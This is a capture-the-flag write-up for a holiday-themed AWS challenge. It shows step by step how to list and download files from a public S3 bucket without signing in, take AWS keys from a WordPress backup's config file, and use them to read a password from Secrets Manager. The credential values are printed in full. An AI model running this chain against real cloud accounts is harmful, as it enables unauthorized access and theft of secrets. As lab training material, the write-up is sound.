 # `[Cloud]` Elf Leaks

## Story
>In a move to taunt the Best Festival Company, Grinch Enterprises sends out an email to the entire company with everyone's name and date of birth. McSkidy looks quite stressed with the breach and thinks about the potential legal consequences. She talks to McInfra to try to determine the origin of the breach.

## Challenge
>Somehow, the Grinch has managed to get hold of all the Elves' names and email addresses. How could this have happened? Given the scope of the breach, McSkidy believes someone in HR must be involved. You know that HR recently launched a new portal site using WordPress. You also know that HR didn't request any infrastructure from IT to deploy this portal site. Where is that portal hosted?
>
>Here is the image HR sent out announcing the new site:
>
>![img](AdditionalFiles/flyer.png)
>
>Based on that, can you figure out how the Grinch got access to the employee database?

### What is the name of the S3 Bucket used to host the HR Website announcement? `******.*******************.***`

I right-clicked the image and opened it in a new tab. This showed me the URL it was coming from.

Answer: `images.bestfestivalcompany.com`

### What is the message left in the flag.txt object from that bucket? `**** **** ** *** **** ***** **** **** *** ***** ** ** **** ** *****`

```
$ aws s3 cp s3://images.bestfestivalcompany.com/flag.txt . --no-sign-request
download: s3://images.bestfestivalcompany.com/flag.txt to ./flag.txt
$ cat flag.txt 
It's easy to get your elves data when you leave it so easy to find!
```

Answer: `It's easy to get your elves data when you leave it so easy to find!`

### What other file in that bucket looks interesting to you? `*********.***`

```
$ aws s3 ls s3://images.bestfestivalcompany.com/ --no-sign-request
2021-11-13 15:06:51       6148 .DS_Store
2021-11-13 12:43:03     108420 0vF39p3.png
2021-11-27 11:55:21     705191 AWSConsole.png
2021-11-13 12:43:03       5652 aws-logo.png
2021-11-13 15:06:51         68 flag.txt
2021-11-13 15:06:51    2349068 flyer.png
2021-11-13 12:43:03      92531 presents.jpg
2021-11-13 12:43:03       4680 tree.png
2021-11-23 23:52:22   16556739 wp-backup.zip
```

Out of all of those, I would say `wp-backup.zip` simply as it could contain a lot of information.

Answer: `wp-backup.zip`

### What is the AWS Access Key ID in that file? `********************`

```
aws s3 cp s3://images.bestfestivalcompany.com/wp-backup.zip . --no-sign-request
unzip wp-backup.zip
cd wp-backup/
less wp-config.php
```
I then came across the following in the file:

```
...
define('S3_UPLOADS_BUCKET', 'images.bestfestivalcompany.com');
define('S3_UPLOADS_KEY', 'AKIAQI52OJVCPZXFYAOI');
define('S3_UPLOADS_SECRET', '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');
define('S3_UPLOADS_REGION', 'us-east-1');
...
```
Answer: `AKIAQI52OJVCPZXFYAOI`

### What is the AWS Account ID that access-key works for? `************`

```
$ aws configure --profile martrewes
AWS Access Key ID [None]: AKIAQI52OJVCPZXFYAOI
AWS Secret Access Key [None]: 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
Default region name [None]: us-east-1
Default output format [None]: 
```
```
$ aws sts get-access-key-info --access-key-id AKIAQI52OJVCPZXFYAOI --profile martrewes
{
    "Account": "019181489476"
}

```
Answer: `019181489476`

### What is the Username for that access-key? `***********.***`

```
$ aws sts get-caller-identity --profile martrewes
{
    "UserId": "AIDAQI52OJVCFHT3E73BO",
    "Account": "019181489476",
    "Arn": "arn:aws:iam::019181489476:user/ElfMcHR@bfc.com"
}
```
Answer: `ElfMcHR@bfc.com`


### There is an EC2 Instance in this account. Under the TAGs, what is the Name of the instance? `*********`

```
aws ec2 describe-instances --output text --profile martrewes > instances.txt
```

Answer: `HR-Portal`

### What is the database password stored in Secrets Manager? `***********`

```
aws secretsmanager list-secrets --profile martrewes > secrets.txt
$ aws secretsmanager get-secret-value --secret-id HR-Password --profile martrewes
{
    "ARN": "arn:aws:secretsmanager:us-east-1:019181489476:secret:HR-Password-8AkWYF",
    "Name": "HR-Password",
    "VersionId": "70630b3c-4fbe-4a24-885d-18445bd808b1",
    "SecretString": "The Secret you're looking for is not in this **REGION**. Santa wants to have low latency to his databases. Look closer to where he lives.",
    "VersionStages": [
        "AWSCURRENT"
    ],
    "CreatedDate": "2021-11-24T01:29:07.718000+00:00"
}
```
*Getting closer*

```
$ aws secretsmanager get-secret-value --secret-id HR-Password --profile martrewes --region eu-north-1
{
    "ARN": "arn:aws:secretsmanager:eu-north-1:019181489476:secret:HR-Password-KIJEvK",
    "Name": "HR-Password",
    "VersionId": "f806c3cd-ea20-4a1a-948f-80927f3ad366",
    "SecretString": "Winter2021!",
    "VersionStages": [
        "AWSCURRENT"
    ],
    "CreatedDate": "2021-11-13T13:26:19.996000+00:00"
}
```

Answer: `Winter2021!`